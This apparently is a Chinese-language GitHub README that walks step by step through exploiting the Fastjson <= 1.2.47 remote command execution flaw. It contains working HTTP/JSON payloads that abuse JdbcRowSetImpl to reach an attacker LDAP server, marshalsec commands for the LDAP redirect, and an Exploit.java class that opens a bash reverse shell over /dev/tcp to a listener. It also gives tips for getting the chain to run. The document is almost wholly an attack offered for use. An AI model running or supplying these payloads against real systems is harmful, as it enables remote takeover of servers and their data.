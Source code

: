 ﻿# fastjson-1.2.47-RCE
Fastjson &lt;= 1.2.47 远程命令执行漏洞利用工具及方法

### 0x00 环境
以下操作均在CentOS7下亲测可用，openjdk需要切换到8，且使用8的javac
```
> java -version
openjdk version "1.8.0_252"
OpenJDK Runtime Environment (build 1.8.0_252-b09)
OpenJDK 64-Bit Server VM (build 25.252-b09, mixed mode)

> javac -version
javac 1.8.0_252
```

### 0x01 连通性测试

准备一台公网ip服务器监听流量
```
nc -lvvp port1
```

发送Payload，将IP改为公网服务器IP
```
POST / HTTP/1.1
Host: 10.11.1.201:8090
Content-Type: application/json
Content-Length: 172


{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"http://ip:port1",
        "autoCommit":true
    }
}

```

如果监听服务器有流量，可以继续下一步

### 0x02 准备LDAP（或rmi）服务和Web服务
#### github：
```https://github.com/TplusSs/fastjson-1.2.47-RCE-exp```


将marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java放在同一目录下（公网服务器）

在当前目录下启动LDAP服务,修改IP为公网服务器的IP
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IP/#Exploit port2
```

在当前目录下启动Web服务
```
python2 -m http.server port3 或者 python2 -m SimpleHTTPServer port3
```

### 0x03 修改Exploit.java并编译成class文件

修改Exploit.java，此处以反弹shell为例：
```
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/ip/port1 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

使用javac编译Exploit.java，生成Exploit.class文件（注意：javac版本最好与目标服务器接近，否则目标服务器无法解析class文件，会报错）
```
javac Exploit.java
```

### 0x04 Check

检查一下，现在目录应该有三个文件
```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器已经开启LDAP和Web服务
```
LDAP Server：Listening on 0.0.0.0:port2
Web  Server：Serving HTTP on 0.0.0.0 port3 (http://0.0.0.0:Port3/) ...
```

一个nc正在准备接收反弹回来的SHELL
```
nc -lvvp port1
```

### 0x05 执行
修改ip为正在运行LDAP和Web服务的服务器IP
```
POST / HTTP/1.1
Host: 10.11.1.201:8090
Content-Type: application/json
Content-Length: 172


{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://iP:port2/Exploit",
        "autoCommit":true
    }
}
```

接下来如果没有任何报错的话，LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行

你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL


### 0x05 问题

当javac版本和目标服务器差太多，会报一个下面那样的错误，所以需要使用1.8的javac来编译Exploit.java
```
Caused by: java.lang.UnsupportedClassVersionError: Exploit has been compiled by a more recent version of the Java Runtime (class file version 55.0), this version of the Java Runtime only recognizes class file versions up to 52.0
```

当运行LDAP的服务器java版本过高，会无法运行LDAP服务，虽然显示正在Listening，但是Fastjson的JNDI会报错，显示无法获取到资源，所以要使用java 1.8（openjdk 8）来运行LDAP服务
